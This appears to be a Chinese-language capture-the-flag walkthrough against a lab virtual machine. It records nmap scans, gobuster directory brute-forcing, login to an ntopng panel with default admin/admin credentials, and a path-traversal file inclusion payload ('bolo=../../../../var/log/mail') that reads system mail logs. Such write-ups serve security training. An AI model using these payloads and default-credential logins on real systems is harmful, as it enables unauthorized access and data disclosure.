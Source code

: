 
1、nmap -sP 172.16.2.0/24
MAC Address: 08:00:27:93:4F:55 (Oracle VirtualBox virtual NIC)
Nmap scan report for 172.16.2.5
发现2.5是该环境IP！


2、nmap 172.16.2.5
25/tcp   open  smtp
80/tcp   open  http
3000/tcp open  ppp （hadoop-datanode）

开启了邮件服务、web服务、3000端口web服务！
Datanode是HDFS文件系统的工作节点,它们根据客户端或者是namenode的调度进行存储和检索数据,并且定期向namenode发送它们所存储的块(block)的列表！

3、web信息收集
访问：http://172.16.2.5
会自动跳转到：http://172.16.2.5/xwx.html
发现这是两个人的对话！

4、新思路爆破目录：gobuster
gobuster dir -u http://172.16.2.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt （用gobuster通过medium目录文本去爆破服务器）

===============================================================
2022/03/05 22:58:20 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 309] [--> http://172.16.2.5/manual/]
/freeside             (Status: 301) [Size: 311] [--> http://172.16.2.5/freeside/]

发现存在/manual和/freeside目录！

信息枚举：
http://172.16.2.5/manual   ---这就是apache的主页面
http://172.16.2.5/freeside   ---是一张卫星图片，没什么信息


5、3000端口信息枚举
访问：http://172.16.2.5:3000  ---这是个管理登录页面：Welcome to ntopng
admin/admin  ---弱口令成功登录
登录在上行主菜单点击：Flows
发现存在：/turing-bolo/目录
http://172.16.2.5/turing-bolo/
往下滑发现个触发按钮：Submit Query   
页面跳转到：http://172.16.2.5/turing-bolo/bolo.php?bolo=case   ---查询字符串参数bolo
?bolo=case 这和文件包含的?page= 一样的格式，查看内容：
Operator Gamma: Adding other member logs to directory...:
molly.log
armitage.log
riviera.log
页面中还包含这三个日志文件！

6、邮件信息枚举---通过开启了mail 25端口
通过LFI文件包含漏洞查看底层：/var/log/mail
访问：
http://172.16.2.5/turing-bolo/bolo.php?bolo=../../../../var/log/mail
页面显示了日志文件的内容被合并到网页中了，默认补充后缀.log信息。
可以看到了mail日志了，根据日志我们可以看到日志里包含了发件人和收件人信息：
hackerman @straylight和root@straylight互相往来的邮件信息！
